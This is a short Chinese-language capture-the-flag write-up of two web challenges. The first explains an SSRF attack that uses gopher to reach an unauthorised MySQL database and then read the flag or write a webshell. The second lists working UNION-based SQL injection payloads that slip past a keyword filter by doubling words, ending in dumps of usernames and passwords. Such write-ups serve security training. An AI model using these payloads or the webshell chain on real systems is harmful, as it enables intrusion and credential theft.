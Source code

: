 ```python

```



### 这个跳板怎么样

主要涉及知识点：

通过SSRF，访问未授权Mysql数据库，写入Webshell



打开网页，F12发现提示"白蜘蛛"，访问robots.txt

拿到有关内网数据库的一些信息（包括账号，库名，表名，字段名）



SSRF访问未授权MySql数据，可以参考这篇文章：

https://blog.csdn.net/qq_41107295/article/details/103026470

（主要是通过gopher协议，发送TCP数据）



页面输入一些网站，发现是可以访问的。（ban掉了dict和file）

使用gopher协议直接发送数据包，访问未授权MySql，在hint字段里面查看到网站的根目录信息。



接下来两种思路：

1. 直接load_file根目录下的flag文件
2. 通过into outfile向根目录写入webshell，蚁剑访问，拿到flag



### EasyWeb

很简单的SQL注入，B站也有视频，不多说

直接上payload:

```
-1/**/ununionion/**/seselectlect/**/1,2,database()# //爆库

-1/**/ununionion/**/seselectlect/**/1,2,group_concat(table_name)/**/from/**/inforinformationmation_schema.tables/**/where/**/table_schema='exercise'# /爆表


-1/**/ununionion/**/seselectlect/**/1,2,group_concat(column_name)/**/from/**/inforinformationmation_schema.columns/**/where/**/table_name='users'# 爆字段

-1/**/ununionion/**/seselectlect/**/1,2,group_concat(username)/**/from/**/users# /爆值


-1/**/ununionion/**/seselectlect/**/1,2,group_concat(password)/**/from/**/users# /爆值
```
